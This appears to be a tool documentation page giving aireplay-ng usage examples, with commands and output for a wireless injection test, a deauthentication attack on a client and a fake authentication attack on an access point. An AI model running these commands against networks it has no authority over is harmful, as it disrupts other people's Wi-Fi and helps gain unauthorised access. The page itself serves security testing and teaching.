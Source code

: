 ## aireplay-ng Usage Examples

### Injection Test

Run the injection test (`-9`) via the monitor mode interface `wlan0mon`.

```
root@kali:~# aireplay-ng -9 wlan0mon
22:55:44  Trying broadcast probe requests...
22:55:44  Injection is working!
22:55:46  Found 4 APs

22:55:46  Trying directed probe requests...
22:55:46  24:FB:95:FD:3D:7F - channel: 6 - 'America'
22:55:52   30/30: 100%

22:55:52  34:6D:A0:CD:45:10 - channel: 6 - 'ATT2b8i4UD'
22:55:58   27/30:  90%

22:55:58  50:64:3D:2A:F7:A0 - channel: 6 - 'FBI surveillance van'
22:56:04   12/30:  40%

22:56:04  16:6E:EF:29:67:46 - channel: 6 - 'dd-wrt_vap'
22:56:10   1/30:   3%
```

### Deauthentication Attack

Run the deauthentication attack (`-0`), sending `5` packets to the wireless access point (`-a 8C:7F:3B:7E:81:B6`) to deauthenticate a wireless client (`-c 00:08:22:B9:41:A1`) via the monitor mode interface `wlan0mon`.

```
root@kali:~# aireplay-ng -0 5 -a 8C:7F:3B:7E:81:B6 -c 00:08:22:B9:41:A1 wlan0mon
12:41:56  Waiting for beacon frame (BSSID: 8C:7F:3B:7E:81:B6) on channel 6
12:41:57  Sending 64 directed DeAuth. STMAC: [00:08:22:B9:41:A1] [ 0| 0 ACKs]
12:41:58  Sending 64 directed DeAuth. STMAC: [00:08:22:B9:41:A1] [ 0| 0 ACKs]
12:41:58  Sending 64 directed DeAuth. STMAC: [00:08:22:B9:41:A1] [ 0| 0 ACKs]
12:41:59  Sending 64 directed DeAuth. STMAC: [00:08:22:B9:41:A1] [ 0| 0 ACKs]
12:42:00  Sending 64 directed DeAuth. STMAC: [00:08:22:B9:41:A1] [ 0| 0 ACKs]
```

### Fake Authentication

Run the fake authentication attack and re-authenticate every 6000 seconds (`-1 6000`) against the access point (`-a F0:F2:49:82:DF:3B`) with the given ESSID (`-e FBI-Van-24`), specifying our mac address (`-h 3c:46:d8:4e:ef:aa`), using monitor mode interface `wlan0mon`.

```
root@kali:~# aireplay-ng -1 6000 -e FBI-Van-24 -a F0:F2:49:82:DF:3B -h 3c:46:d8:4e:ef:aa wlan0mon
12:49:59  Waiting for beacon frame (BSSID: F0:F2:49:82:DF:3B) on channel 6

12:50:06  Sending Authentication Request (Open System)
```
